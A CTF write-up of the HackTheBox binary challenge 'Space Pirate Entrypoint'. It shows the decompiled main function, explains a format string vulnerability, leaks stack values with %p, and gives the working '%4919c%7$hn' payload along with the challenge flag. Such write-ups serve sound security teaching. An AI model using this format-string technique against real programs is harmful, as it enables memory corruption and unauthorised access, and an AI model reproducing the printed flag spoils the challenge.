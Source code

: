 ```yaml
---
layout: post
title: Binary Exploitation&#58; HacktheBox/Space Pirate Entrypoint
---
```


## HacktheBox Space Pirate Entrypoint Write-up

To start, let's run the program. We are prompted for a choice between scanning our card and inserting a password. When we use the ```scan card``` option, we are asked for the card's serial number. Input leads to an Invalid ID message and the program exiting. The ```insert password``` option is similar, except is asks for a password instead of a serial.

Let's check the file type.
```
└─$ file sp_entrypoint
sp_entrypoint: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9929f2d6b7a50a00cb151fce627175f6461c0b91, not stripped
```

We are dealing with a 64 bit ELF executable, dynamically linked, and not stripped. This is good news.

Now to check for securities on the binary.
```
└─$ checksec --file=sp_entrypoint
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   82 Symbols	  No	0		2		sp_entrypoint
```

Full relro, a canary, NX enable, and PIE. So no shellcode injection or overwriting the return address. Let's see what ghidra tells us.

### Reversing

The main function is fairly straight forward.
```c
undefined8 main(void)

{
  long lVar1;
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  char local_38 [40];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  local_48 = 0xdeadbeef;
  local_40 = &local_48;
  printf(&DAT_001025e0);
  lVar1 = read_num();
  if (lVar1 != 1) {
    if (lVar1 == 2) {
      check_pass();
    }
    printf(&DAT_00102668,&DAT_0010259a);
                    /* WARNING: Subroutine does not return */
    exit(0x1b39);
  }
  printf("\n[!] Scanning card.. Something is wrong!\n\nInsert card\'s serial number: ");
  read(0,local_38,31);
  printf("\nYour card is: ");
  printf(local_38);
  if (local_48 == 0xdead1337) {
    open_door();
  }
  else {
    printf(&DAT_001026a0,&DAT_0010259a);
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

So it looks like to get the flag, we need to access the ```open_door()``` function. To do this, we need the variable ```local_48``` to equal ```0xdead1337```. It is initialized at the beginning ```main``` to ```0xdeadbeef```. Now we need to find a way to do that.

The first thing I notice is a format string vulnerability on this line:
```c
printf(local_38);
```

Format string vulnerabilities happen when the proper arguments are not passed to a string processing function such as ```printf```. Normally, the first argument would be the *format string*, such as ```"Hello, my name is %s!\n", the following arguments passed to the function must correspond with the format specifiers in the format string, or else ```printf``` will use the data at where the argument *should* have been. A more thorough breakdown of format strings can be found [here](https://axcheron.github.io/exploit-101-format-strings/).

How does this help us write to memeory? By using the ```%n``` specifier. This specifier will write the number of bytes expressed as an integer to the corresponding argument. For instance:
```
printf("Hello, my name is %n!\n", &num);
```

In this case, ```num``` would hold the value ```18```. We can use this to overwrite the contents of ```local_48```.

### Pwn

To leverage this vulnerability, we need to find out how many stack addresses our target it away, to do this, we simply need to input a bunch of ```%p``` where our payload should go.
```
Insert card's serial number: %p %p %p %p %p %p %p %p %p

Your card is: 0x7ffdd9766a50 0x7f062b4508c0 (nil) 0xf (nil) 0xdeadbeef 0x7ffdd97690f0 0x7025207025207025 0x2520702520702520
E�U
```

We see that ```0xdeadbeef``` is 6 arguments away, and the pointer to ```deadbeef``` is 7 arguments away. Since argument 7 points to our target, we can use argument 7 to overwrite argument 6. Now we need to simply overwrite the lowest 2 byte orders of ```0xdeadbeef``` with ```0x1337``` which, expressed as an integer, is ```4919```. Let's craft our payload and test it. Note that the format specifier for a ```short``` is ```%hn```.
```
Insert card's serial number: %4919c%7$hn 

Your card is:                         





[+] Door opened, you can proceed with the passphrase: HTB{th3_g4t35_4r3_0p3n!}
```

Et Voila!
